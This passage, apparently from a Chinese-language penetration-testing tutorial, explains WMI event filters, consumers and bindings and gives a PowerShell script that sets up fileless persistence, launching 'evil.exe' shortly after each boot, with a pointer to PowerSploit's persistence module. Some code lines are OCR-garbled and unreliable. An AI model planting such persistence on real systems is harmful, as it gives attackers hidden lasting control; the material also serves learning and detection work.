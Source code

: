 ```powershell
PS C:\Users\rootclay> Get-WmiObject -Class Win32_QuickFixEngineering

Source        Description      HotFixID      InstalledBy          InstalledOn
------        -----------      --------      -----------          -----------
WIN-0B8BJI... Hotfix           KB2534111                          2017/9/6 0:00:00
WIN-0B8BJI... Update           KB2999226     WIN-0B8BJI54VH7\r... 2017/10/25 0:00:00
WIN-0B8BJI... Update           KB976902      WIN-0B8BJI54VH7\A... 2010/11/21 0:00:00
```



### WMI触发器

WMI用处可以说是非常的多，但是我们不能一一列举，我们就用一个wmi在攻防中用的最神化的一个功能，无文件持久化控制的例子来举一个实际例子:

那么想要了解到wmi的这项功能，我们先来看看wmi事件的基础:

#### 事件触发条件

1. 事件筛选器

	事件筛选器是什么呢？事件筛选器描述事件并且执行WQL事件查询。

2. 事件消费者

	事件消费者是什么呢？事件消费是一个派生自 __EventConsumer 系统类的类，它表示了在事件触发时的动作。我们常用的消费类有下面两个：
	1. ActiveScriptEventConsumer - 执行嵌入的 VBScript 或 JScript 脚本 payload
	2. CommandLineEventConsumer - 执行一个命令行程序

3. 消费者绑定筛选器

 	消费者绑定筛选器？消费者绑定筛选器就是将筛选器绑定到消费者的注册机制。
 
#### 实例代码
下面我们分析一个实例代码：其中第5个变量为事件筛选器、第6个变量为事件消费者、最后一个就是绑定事件筛选器和事件消费者，也就是通俗理解的执行。这个脚本能达到什么效果呢？事件筛选器在系统启动后的 200 和 320 秒之间被当作一个触发器。在事件被触发时事件消费者会使用`CommandLineEventConsumer `执行已指定好的可执行文件。

```powershell
$filterName='BotFilter82'

$consumerName='BotConsumer23'

$exePath='C:\Windows\System32\evil.exe'

$Query=”SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance 
ISA 'Win32_PerfFormattedData_PerfOS_System' AND 
TargetInstance.SystemUpTime >= 200 AND TargetInstance.SystemUpTime < 320”

$WMIEventFilter=Set-WmiInstance -Class__EventFilter -NameSpace ”root\subscription” -Arguments @ 
{Name=$filterName;EventNameSpace=”root\
cimv2”;QueryLanguage=”WQL”;Query=$Query}
-ErrorActionStop

$WMIEventConsumer=Set-WmiInstance -Class CommandLineEventConsumer -Namespace” root\
subscription” -Arguments @=$consumerName;ExecutablePa
th=$exePath;CommandLineTemplate=$exePath}

Set-WmiInstance-Class__FilterToConsumerBinding -Namespace ”root\subscription” -Arguments
@{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```


同时我们可以通过Powersploit的[代码](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Persistence/Persistence.psm1)即可，代码会在本目录下生成类似于上面的Powershell代码，直接运行即可。

#### 生命周期

对于我们安装的wmi事件，如果你是使用普通用户权限启动的那么他的生命周期就是主进程的生命周期，如果使用的是管理员的权限运行的，那么就能够达到持久化控制的效果。